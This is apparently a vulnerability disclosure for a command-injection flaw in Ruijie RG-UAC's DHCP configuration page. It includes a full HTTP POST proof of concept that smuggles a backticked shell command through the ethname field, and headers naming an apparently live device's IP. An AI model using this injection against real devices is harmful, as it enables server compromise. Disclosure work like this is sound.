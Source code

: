 Ruijie Network is a professional network manufacturer with a full range of network equipment products and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.

There is a command execution vulnerability in Ruijie RG-UAC. Attackers exploit vulnerabilities to compromise servers.

official：https://www.ruijie.com.cn

version:1.0

url:/view/dhcp/dhcpConfig/commit.php

The key code has been marked, as shown in the figure. When the controllable value of the action variable is add, then request the ethname parameter. Bringing it into the get_ip_addr_details function, the tracing function will directly bring the ethname parameter into the exec function to execute the command without any verification, thus causing the rce vulnerability to occur.
<img width="587" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/1a632e35-1471-4864-b754-217e735fc40c">
<img width="591" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/a4a0ecb4-a656-4a96-8ae8-24fc69804992">
poc：
```
POST /view/dhcp/dhcpConfig/commit.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://59.49.169.195:81
Connection: close
Cookie: sizeSouth=180; PHPSESSID=06c246bc5a619a5971fa8df581362a02
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1

action=add&ethname=`sleep${IFS}10`
```
<img width="603" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/f94d66f4-0623-4ba0-b3e7-4e41c637c119">
